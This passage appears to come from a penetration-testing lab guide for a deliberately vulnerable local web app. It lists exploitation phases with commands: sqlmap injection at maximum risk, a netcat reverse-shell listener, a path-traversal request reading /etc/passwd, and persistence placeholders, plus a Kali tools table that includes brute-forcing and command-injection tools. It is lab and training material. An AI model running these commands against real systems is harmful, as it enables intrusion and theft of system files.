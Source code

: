 ### Phase 4: Automated Exploitation (5-10 min)
```bash
# Run custom Python exploit
python3 kali_exploit.py -t http://localhost:3001

# SQLMap for NoSQL injection
sqlmap -u "http://localhost:3001/login" \
  --data='{"username":"admin@snyk.io","password":"test"}' \
  --headers="Content-Type: application/json" \
  --level=5 --risk=3 --batch
```

### Phase 5: Post-Exploitation (10-15 min)
```bash
# 1. Establish reverse shell
nc -lvnp 4444

# 2. Trigger command injection for reverse shell

# 3. Data exfiltration
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/etc/passwd'

# 4. Persistence mechanisms
# (via command injection)
```

### Phase 6: Reporting (15-20 min)
```bash
# 1. Compile findings in Dradis/MagicTree

# 2. Generate executive summary

# 3. Create technical appendix with:
#    - Nmap scan results
#    - Nikto findings
#    - ZAP vulnerability report
#    - Burp screenshots
#    - Exploitation proof-of-concepts
```

---

## 9. Kali Linux Tools Quick Reference

| Tool | Purpose | Command Example |
|------|---------|-----------------|
| **Nmap** | Port scanning | `nmap -sV -p 3001 localhost` |
| **Nikto** | Web server scanner | `nikto -h http://localhost:3001` |
| **OWASP ZAP** | Web app scanner | `zap-baseline.py -t http://localhost:3001` |
| **Burp Suite** | Manual testing | `burpsuite` |
| **SQLMap** | SQL/NoSQL injection | `sqlmap -u URL --data=DATA` |
| **Wfuzz** | Web fuzzer | `wfuzz -z file,wordlist URL/FUZZ` |
| **Commix** | Command injection | `commix --url=URL --data=DATA` |
| **XSSer** | XSS scanner | `xsser --url=URL` |
| **Hydra** | Brute forcing | `hydra -l USER -P PASS host http-post-form` |
| **Metasploit** | Exploitation framework | `msfconsole` |